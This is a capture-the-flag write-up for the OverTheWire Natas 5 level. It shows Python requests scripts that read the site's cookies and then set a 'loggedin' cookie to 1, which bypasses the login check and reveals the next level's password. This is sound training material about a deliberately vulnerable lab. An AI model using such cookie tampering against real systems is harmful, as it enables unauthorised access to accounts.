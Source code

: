 # Writeup for [Natas 5 - Natas 6](http://natas5.natas.labs.overthewire.org) from [OverTheWire](https://overthewire.org)

We are prompted to a page that says that we aren't logged in.

![](./img/page.png)


To solve this problem, we're going to need to know how logins work. 

When a user is logged in, it creates a session with the server to denote that the user is logged in and so that the server knows which request is coming from which user. It can also be used to customize user sessions. 

All request origins to a server are exactly the same and a server cannot determine if a request came from a client that had already made a request before, or it’s a new one. This cookie can be used to identify what privileges the user has, including login sessions.


On the previous level, we used a tool called Burp Suite. But now we're going to do it with `Python` with the `requests` module.
So let's create the base script for this exploit that'll just do a simple `GET` request to the server.

```python
#!/usr/bin/env python3

import requests

url = 'http://natas5.natas.labs.overthewire.org/'

username = 'natas5'
password = '' # Password

r = requests.get( url, auth=(username, password) )

print(r.text)
```
And we see the exact same thing as the web page says, but in `HTML` form.

![](./img/page-req.png)

Now let's try viewing the cookie by adding `print(r.cookies)` to the end of the script.

Now we can see all of the `cookies` being used on this page.

![](./img/cookies.png)

It appears that there is a cookie called `loggedin` and it is set to 0, which is used by programmers to set something to `false`.

What we could do is try to set this cookie to `true` by setting it to 1. Our script should look like this.

```python
#!/usr/bin/env python3

import requests

url = 'http://natas5.natas.labs.overthewire.org/'

username = 'natas5'
password = '' # Password

cookies = {
	"loggedin" : "1"
}

r = requests.get( url, auth=(username,password),cookies=cookies )

print(r.text)
print(r.cookies)
```

Running this script, we can see that we successfully changed the `loggedin` cookie to be set to 1 and we got the password for the next level.

![](./img/password.png)
